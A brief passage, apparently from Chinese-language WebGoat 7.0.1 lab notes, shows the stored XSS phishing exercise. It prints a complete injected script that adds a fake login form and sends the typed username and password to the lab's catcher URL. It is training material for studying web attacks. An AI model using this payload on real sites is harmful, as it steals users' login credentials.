 ### 【漏洞类型②：跨站点脚本(XSS)】

- PhishingTitle WebGoat 7.0.1

  ![xss](chapter0x03-image/xss.png)

- 注入XSS

  ```xml
  </form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
  ```

- 显示界面

